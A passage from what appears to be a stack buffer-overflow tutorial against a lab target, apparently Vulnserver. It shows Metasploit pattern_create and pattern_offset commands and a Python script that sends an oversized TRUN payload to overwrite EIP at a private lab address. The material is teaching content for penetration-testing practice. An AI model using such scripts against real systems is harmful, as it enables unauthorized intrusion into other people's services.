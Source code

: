 ### Outcome
You might find that the application crashes, for example, when receiving 3000 bytes.

---

## Step 3. Finding the Offset

### Objective
Identify exactly where in your input the EIP gets overwritten.

### Tool
Metasploit provides `pattern_create.rb` and `pattern_offset` (or similar tools such as pwntools’ cyclic pattern).

### Process

1. Generate a unique cyclic pattern of 3000 bytes:

   ```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
   ```

2. Replace your “fuzzed” payload with this pattern and cause a crash.
3. In your debugger (e.g., Immunity), note the value in EIP (say, `38f4337`).
4. Use the offset tool:

   ```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_offset -l 3000 -q 38f4337
   ```

   **Result:** It might tell you that the exact offset is at, for example, `2003` bytes.

> **Note:** If you’re not the owner of the server, you can’t attach a debugger like Immunity remotely. Instead, you replicate the environment locally to determine the offset. In real-world penetration tests, you’d develop your exploit on a lab copy of the vulnerable software.

---

## Step 4. Overwriting the EIP

### Objective
Confirm you can control the instruction pointer.

### How
Create a new payload with:
- 2003 bytes of filler (e.g., "A")
- 4 bytes to overwrite EIP (e.g., "B" * 4, which in memory is `0x42424242`)

### Example Python Script (`3.py`)

```python
#!/usr/bin/python
import sys, socket

payload = "A" * 2003 + "B" * 4

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.1.90', 9999))
    s.send(('TRUN /.:/' + payload))
    s.close()
except:
    print("Error connecting to server")
    sys.exit()
```